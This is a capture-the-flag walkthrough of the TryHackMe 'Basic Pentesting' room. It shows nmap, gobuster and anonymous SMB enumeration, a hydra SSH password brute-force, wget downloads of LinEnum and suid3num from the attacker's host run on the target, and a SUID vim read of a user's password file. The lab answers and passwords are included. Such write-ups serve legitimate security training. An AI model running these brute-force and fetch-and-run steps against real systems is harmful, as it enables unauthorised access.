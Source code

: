 # Basic Pentesting

{% embed url="https://tryhackme.com/room/basicpentestingjt" %}
https://tryhackme.com/room/basicpentestingjt
{% endembed %}

## Task 1 Web App Testing and Privilege Escalation

#### **Find the services exposed by the machine**

```bash
nmap -n 10.10.151.61
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 11-05-50.png>)

#### What is the name of the hidden directory on the web server?

```
gobuster dir -u http://10.10.53.189/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 11-07-05.png>)

{% hint style="success" %}
`/development`
{% endhint %}

#### User brute-forcing to find the username & password

#### **What is the username?**

```
smbclient -N -L //10.10.53.189/
smbclient -N //10.10.53.189/Anonymous
smb > ls
smb > get staff.txt
smb > exit
cat staff.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 11-26-34.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-31 11-26-09.png>)

{% hint style="success" %}
`Jan`
{% endhint %}

#### **What is the password?**

```
hydra -l jan -P /usr/share/metasploit-framework/data/wordlists/password.lst \
      ssh://10.10.53.189 -t 64 -V -f -I
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 11-53-14.png>)

{% hint style="success" %}
`armando`
{% endhint %}

#### **What service do you use to access the server?**

{% hint style="success" %}
`SSH`
{% endhint %}

#### Enumerate the machine to find any vectors for privilege escalation

#### **What is the name of the other user you found(all lower case)?**

{% hint style="success" %}
`kay`
{% endhint %}

#### If you have found another user, what can you do with this information?

```
cd /tmp
wget http://10.9.101.193:8000/LinEnum.sh
bash LinEnum.sh
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 12-21-06.png>)

```
wget http://10.9.101.193:8000/suid3num.py
python3 suid3num.py
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 12-22-23.png>)

#### **What is the final password you obtain?**

```
vim.basic /home/kay/pass.bak
```

{% hint style="success" %}
`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
{% endhint %}
